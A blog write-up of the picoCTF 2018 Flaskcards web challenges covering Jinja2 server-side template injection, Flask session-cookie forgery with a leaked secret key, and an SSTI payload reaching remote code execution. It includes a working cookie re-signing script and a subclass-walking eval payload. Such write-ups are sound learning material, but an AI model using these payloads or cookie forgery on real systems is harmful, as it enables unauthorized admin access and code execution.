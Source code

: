 ```yaml
---
layout: post
title: picoCTF'18 - Flaskcards writeup
date: 2018-10-12
categories: ['writeup']
---
```


___
## Summary / TL;DR

I played in picoCTF again this year, and I think I performed a lot better than I did last year, especially in web, I wanted to share this writeup because I think I did a good job being the **<u>75th</u>** person (out of like 5000 other players) to solve the final part of this series of web challenges.

1. **Flaskcards** (350 pts)
2. **Flaskcards Skeleton Key** (600 pts)
3. **Flaskcards and Freedom** \[Highest point web challenge] (900 points)  

___
  

# Flaskcards

## Description / Hints / URL

We found [this](http://2018shell1.picoctf.com:51878/){:target="_blank"} fishy website for flashcards that we think may be sending secrets. Could you take a look? 

```
- Are there any common vulnerabilities with the backend of the website?
- Is there anywhere that filtering doesn't get applied?
- The database gets reverted every 2 hours so your session might end unexpectedly. Just make another user
```

## Thought Process

Based on CTF playing experience, the challenge and flavourtext always gives hints about the vulnerability or at least a starting point. In this case `Flask` is a dead giveaway that it has something to do with the Flask webserver.

After registering and logging in, we are shown a navbar that gives us a bit more hinting. 
![navbar](https://vgy.me/YUkEMJ.png)

**Ccreate Cards** -- Allows users to enter input and save it  
**List Cards** -- Shows the saved input that was entered beforehand  
**Admin** -- Not important for this challenge, used in further challenge 

As an example:  
![list-create](https://vgy.me/HlN6i5.png)

Some experienced CTF players may know straight away what to do at this point, if not then well this is a sign of user input being reflected, which could be a few things, notably _Cross Site Scripting_ (XSS) or _Server-Side Template Injection_ (SSTI)

## Exploitation

First thing I tried was XSS because why not ?  
![xss-attempt](https://vgy.me/85lTVv.png)
Unfortunately the payloads were being escaped so by rule of elimination the other thing left to try was **SSTI** ! 

Not going to go into how **SSTI** works but essentially your input gets evaluated and the result is returned, not good for keeping secrets ... 

Here is an example probing payload:  
![4times4](https://vgy.me/2lWc1L.png)
 
## Flag 
{% raw %}
The flag is most likely stored in the `SECRET_KEY` variable maintained internally by Flask, so we can use `{{ config }}` to dump out all the variables:  
![configz](https://vgy.me/bLucDr.png)
{% endraw %}

<div class="divider"></div>
# Flaskcards Skeleton Keys

## Description / Hints / URL
Nice! You found out they were sending the Secret_key: a155eb4e1743baef085ff6ecfed943f2. Now, can you find a way to log in as admin? http://2018shell1.picoctf.com:53588 .

```
- What can you do with a flask Secret_Key?
- The database still reverts every 2 hours
```
## Thought Process
This one took me awhile because I wasn't sure what I was doing wrong, but actually the answer is very staright forward ! The key is given to us: `a155eb4e1743baef085ff6ecfed943f2`.

We first grab the existing _non-admin_ session cookie off the site which is something like this:
```
.eJwlj0FqBDEMBP_i8x5kWZKl_cxiWRIJgQRmdk8hf8-EXPpQUFD93R515PnW7s_jlbf2eI92b7lpOq4eXfRvd-7IBCumiY7AfZqEuoGn8dC9zcVrsefM6nP0cCcX6oUhwaZwsQEohmYlqbvzSMWpnQxh0NDFQLpIAGy1W9vnUY_n10d-Xj2Kw124XC1SKbUWGImHYueShUzqscblvc48_k90aD-_1SE-cQ.DqESzA.6Di3_tN-krfQX-10KZLnH9ncisw
```
It goes without saying that when we visit the `/admin` page we don't get the flag, at least not yet ... 

 We know that secrets are usually used to sign cookies and a quick search on the interwebz gives us a nice and easy [program](https://gist.github.com/babldev/502364a3f7c9bafaa6db) to decrypt and encrypt our own cookies using the key :)

## Exploitation 
After some slight modification and experimenting the (cleaned-up) version of the script I used was:
```python 
#!/usr/bin/python

import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer
salt = 'cookie-session'
serializer = TaggedJSONSerializer()

secret_key = "a155eb4e1743baef085ff6ecfed943f2"
cookie_str = ".eJwlj0FqBDEMBP_i8x5kWZKl_cxiWRIJgQRmdk8hf8-EXPpQUFD93R515PnW7s_jlbf2eI92b7lpOq4eXfRvd-7IBCumiY7AfZqEuoGn8dC9zcVrsefM6nP0cCcX6oUhwaZwsQEohmYlqbvzSMWpnQxh0NDFQLpIAGy1W9vnUY_n10d-Xj2Kw124XC1SKbUWGImHYueShUzqscblvc48_k90aD-_1SE-cQ.DqESzA.6Di3_tN-krfQX-10KZLnH9ncisw"

signer_kwargs = {
    'key_derivation': 'hmac',
    'digest_method': hashlib.sha1
}

s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)

print "=== User u ==="
print s.loads(cookie_str)
print ''

manipulate = s.loads(cookie_str)
manipulate['user_id'] = '1'.decode('utf-8')

print "=== MANIPULATED ==="
print manipulate
print ''
print s.dumps(manipulate)
print "======================="
```

The decrypted cookie had a user_id value which would determine whose session you logged in as, I kept failing because I was going after user_id **0** which is usually the admin, but I guess sometimes 1 is worth a try as well  

The manipulated cookie was:
```
.eJwlj0FqBDEMBP_i8x4kWZKl_cxiWTIJgQRmdk8hf8-EXPpQUFD93R77qPOt3Z_Hq27t8Z7t3mrxCJqYqPa3q1ZWgW_hQUEgOFzTwiHKpdtaHhp7StSojaNjRnAo46bUFDe4WAdSJ_etZQull9EwZCfo3G0KsE1WAJ_t1tZ57Mfz66M-rx6jHqGywzzLuGxPcNZII5Stk4QtcvbLe511_J_A9vMLlu8-QQ.DqETSg.MoGOf2Esi4EScYNpa8Y_hOikdbQ
```

By copying this value into the clipboard and repasting into a cookie editor, we can now visit the `/admin` page to get the flag ~ 

Note:  The cookie should **NOT** have a trailing newline, as this causes the cookie to not be parsed properly !     

## Flag 
![flag2](https://vgy.me/hX4nrZ.png)

<div class="divider"></div>
# Flaskcards and Freedom

## Description / Hints / URL
There seem to be a few more files stored on the flash card server but we can't login. Can you? http://2018shell1.picoctf.com:52168

```
- There's more to the original vulnerability than meets the eye.
- Can you leverage the injection technique to get remote code execution?
- Sorry, but the database still reverts every 2 hours.
```

## Thought Process
Again, the title gives us a hint of what to do ... __Freedom__ relates to sandbox escaping, or in this case we just need to get _Remote Code Execution_ (RCE) somehow, in the 2nd challenge the templating bug was patched but is reintroduced again in this challenge. Therefore we know that this is a chance to do more **SSTI** stuff ! 


I'm really glad I took extended WebApps because I learnt how to do exactly this type of challenge, to learn how I constructed the payload, these two pages [(1)](https://0day.work/bsidessf-ctf-2017-web-writeups/#zumbo3){:target="_blank"} [(2)](https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html){:target="_blank"} may help out ...

## Exploitation

After much experimentation and failure, the final crafted payload I managed to get working was this:
{% raw %}
```python
{{[].__class__.__base__.__subclasses__()[111].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat flag").read()') }}
```
{% endraw %}

## Flag 
After submitting this to **Create Card** our commands would be reflected back to us, it was as simple as doing `ls` followed by `cat flag` to obtain the flag !   
![image](https://vgy.me/LLFMGS.png)

